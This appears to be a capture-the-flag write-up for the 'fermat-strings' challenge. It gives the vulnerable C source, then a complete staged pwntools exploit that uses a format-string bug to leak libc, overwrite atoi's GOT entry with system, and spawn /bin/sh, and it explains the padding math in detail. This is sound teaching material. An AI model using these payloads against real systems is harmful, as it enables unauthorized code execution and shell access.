

# fermat-strings


## source code :

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <math.h>

#define SIZE 0x100

int main(void)
{
  char A[SIZE];
  char B[SIZE];

  int a = 0;
  int b = 0;

  puts("Welcome to Fermat\\'s Last Theorem as a service");

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  printf("A: ");
  read(0, A, SIZE);
  printf("B: ");
  read(0, B, SIZE);

  A[strcspn(A, "\n")] = 0;
  B[strcspn(B, "\n")] = 0;

  a = atoi(A);
  b = atoi(B);

  if(a == 0 || b == 0) {
    puts("Error: could not parse numbers!");
    return 1;
  }

  char buffer[SIZE];
  snprintf(buffer, SIZE, "Calculating for A: %s and B: %s\n", A, B);
  printf(buffer);

  int answer = -1;
  for(int i = 0; i < 100; i++) {
    if(pow(a, 3) + pow(b, 3) == pow(i, 3)) {
      answer = i;
    }
  }

  if(answer != -1) printf("Found the answer: %d\n", answer);
}

```


The exploit abuses a **format-string vulnerability** to overwrite the GOT entry for `atoi` with the address of `system`. After the overwrite, when the program calls `atoi("/bin/sh")` the process actually executes `system("/bin/sh")`, giving a shell.

the script performs these stages:

1. Redirect `pow@GOT` → `main` to regain a clean code path.
2. Leak `puts` (from the GOT) to compute libc base.
3. Compute `system` address from libc base.
4. Overwrite `atoi@GOT` with `system` using two `%hn` writes (low 2 bytes and next 2 bytes).
5. Trigger the overwritten `atoi` by sending `"/bin/sh"`.

Below I explain each stage in full detail and show the precise reasoning behind the padding math and write ordering.

---

## Stage 0 — useful concepts and primitives

* **GOT (Global Offset Table)**: stores function pointers to libc functions (one entry per imported function). On x86\_64 each GOT entry is 8 bytes (little-endian).
* **Format string `%n` variants**:

  * `%n` writes a machine word (8 bytes on x86\_64) — usually dangerous.
  * `%hn` writes 2 bytes (16 bits).
  * `%hhn` writes 1 byte (8 bits).
* **Placing addresses on the stack**: sending `p64(got_entry)` as part of an input makes that address appear as an argument to `printf`/`fprintf`, so `%<index>$hn` will write to that address.
* **Printed character counter**: `%<N>c` prints N characters and increases the global printed count; `%hn` writes that printed count (mod 0x10000) to the target address.

Always remember: `%hn` writes **the number of characters printed so far** (mod 2^16) into the supplied address.

---

## Stage 1 — (stable loop) Repoint `pow@GOT` → `main`

Purpose: make the program call `main` again instead of crashing so we can run the vulnerable code multiple times.

```py
pow_got      = elf.got['pow']
main_addr    = elf.symbols['main']
bytes_on_stack = 38

bytes_to_print = (main_addr - bytes_on_stack - 2) & 0xffff

payload_a = b'1234567.' + p64(pow_got)
payload_b = f'1.%{bytes_to_print}c%11$hn'.encode()

p.sendlineafter(b'A: ', payload_a)
p.sendlineafter(b'B: ', payload_b)
```

Explanation:

* `payload_a` places the address `pow_got` onto the stack (so it will be an argument).
* `payload_b` prints characters until the printed count equals `main_addr`’s low 16 bits (adjusted by `bytes_on_stack`) and then writes that value into `pow_got` using `%11$hn`. This effectively causes the next call to `pow()` to jump to `main()` — a common trick to restart execution under controlled conditions.
* `bytes_on_stack` is an assumed count of characters that have already been printed (or otherwise affect the counter) before your `%c`. In practice that value must be verified for your environment.

**Note:** `-2` in `bytes_to_print` is compensating for the `"1."` header used in the format string (but because your code uses `'1234567.'` as `payload_a`, be sure you are consistent: the printed count must reflect the actual header you used).

---

## Stage 2 — leak `puts` to compute libc base

```py
puts_got  = elf.got['puts']

payload_a = b'1234567.' + p64(puts_got)
payload_b = b'1.%11$s'

p.sendlineafter(b'A: ', payload_a)
p.sendlineafter(b'B: ', payload_b)

p.recvuntil(b"and B: 1.")
leak = p.recvn(6)
puts_addr = u64(leak.ljust(8, b'\x00'))
```

Explanation:

* `payload_a` places `puts_got` on the stack.
* `payload_b = b'1.%11$s'` prints the string at the address stored at that argument slot — giving you the libc `puts` address.
* `p.recvn(6)` reads 6 bytes (typical GOT leaks give 6 low bytes of a 48-bit pointer). `ljust(8, b'\x00')` pads to 8 bytes and `u64()` converts to an integer.
* Compute libc base: `glibc_base_addr = puts_addr - puts_offset` (where `puts_offset` is the `puts` offset in your used libc).

**Important:** `elf.libc` is using the local libc packaged with the binary in your testing environment; if doing remote exploitation, you must ensure the *remote libc* offsets are used (via a leak + libc database) — otherwise the calculated `system` may be wrong.

---

## Stage 3 — (optional) leak `atoi` for verification

Same as the puts leak but targets `atoi_got`. This gives you the current `atoi` address (good for verifying later that overwrite worked).

---

## Stage 4 — compute `system` address

```py
system_addr = glibc_base_addr + elf.libc.symbols['system']
```

You now have a 64-bit address for `system`. This is the value we want `atoi@GOT` to point to.

---

## Stage 5 — overwrite `atoi@GOT` with `system` using two `%hn` writes

### Why two writes?

* On x86\_64 `system_addr` is 8 bytes. `%hn` writes 2 bytes at a time, so using two `%hn` writes overwrites the **low 4 bytes** (lowest 32 bits). Usually, on Linux the top bytes of libc pointers are constant (`0x00007f...`) so modifying the low 4 bytes is enough to redirect the call. (If you need full 8 bytes, use 4 `%hn` writes or 8 `%hhn` writes.)

### Code:

```py
low  = system_addr & 0xffff                # low 16 bits
high = (system_addr >> 16) & 0xffff        # next 16 bits

first  = (low - bytes_on_stack - 2) & 0xffff
second = (high - low) & 0xffff

payload_a  = b'1234567.' + p64(atoi_got) + p64(atoi_got + 2)
payload_b  = f'1.%{first}c'.encode() + b'%11$hn'
payload_b += f'%{second}c'.encode() + b'%12$hn'

p.sendlineafter(b'A: ', payload_a)
p.sendlineafter(b'B: ', payload_b)
```

Detailed reasoning:

* `payload_a` pushes two addresses on the stack: `atoi_got` (target for the low 2 bytes) and `atoi_got+2` (target for the next 2 bytes). They will occupy consecutive argument slots (e.g. `%11` and `%12`) when `printf` runs.
* `first` is the number of characters we must print so that the first `%11$hn` writes `low`. We subtract `bytes_on_stack` and `2` to compensate for characters already printed (the exact subtraction depends on your header).
* After the first write, the printed-character counter equals `low`. To make the counter equal `high` for the second write, we pad by `second = (high - low) & 0xffff`, so that after adding `second` characters the total printed count becomes `high`, and `%12$hn` writes that into `atoi_got+2`.
* We use `%hn` so **each write writes exactly 2 bytes**.

**Order matters:** writing low half first then high half is OK as long as you compute `second = (high - low) & 0xffff`. If `high < low` (wrap), `second` will wrap around and produce a huge pad; in that case it’s often better to write the high half first, then low. Defensive code checks or swapping order reduces huge `%<N>c` usage.

---

## Stage 6 — trigger `system("/bin/sh")`

```py
p.sendlineafter(b'A: ', b'/bin/sh')
p.sendlineafter(b'B: ', b'')
p.interactive()
```

* After the GOT overwrite, the next input that the vulnerable program sends to `atoi` will be executed via `system` instead.
* We send `/bin/sh` as the input to trigger a shell.

---

## Verification & debugging techniques (local)

* **Check your payload bytes**: print `payload_a` / `payload_b` and lengths before sending. Off-by-one in header length kills padding math.
* **Use GDB**: you already attach with `gdb.attach(p, gdbscript=f"break *{elf.symbols['atoi']}\ncontinue")`. When execution hits `atoi`, inspect the GOT:

  ```
  x/gx <atoi_got>     # examine 8 bytes at atoi_got in gdb
  ```

  Confirm the bytes equal the address of `system`.
* **Leaking back**: after the write, use a format string read to print `atoi_got` (same method you used for leaks) and compare to `system_addr`.
* **Watch for large pads**: if `first` or `second` is huge (> 50k), consider:

  * swapping order (write bigger half first), or
  * using byte-wise `%hhn` writes (eight writes, smaller pads), or
  * using `%<N>c` multiples (slow and sometimes truncated by remote).
* **Confirm positional indices**: `%11$hn` & `%12$hn` are assumptions. Use probing (`for i in range(1,50): send '%{i}$p'`) to find the actual indices remotely if things don’t line up.

---


## Appendix — precise meaning of the key formulas

* `low  = system_addr & 0xffff`
  lowest 16 bits we want to write to `atoi_got`.

* `high = (system_addr >> 16) & 0xffff`
  next 16 bits we want to write to `atoi_got+2`.

* `first  = (low - bytes_on_stack - 2) & 0xffff`
  number of extra characters to print so that printed-count reaches `low`.
  *`bytes_on_stack` should equal the number of characters printed by anything before `%c` (headers, etc.). The `-2` compensates for `"1."` if that is the header you used; if you use `'1234567.'` adjust accordingly.*

* `second = (high - low) & 0xffff`
  after the first write the printed counter equals `low`; we now need an additional `second` characters so the counter becomes `high` for the second write.

---

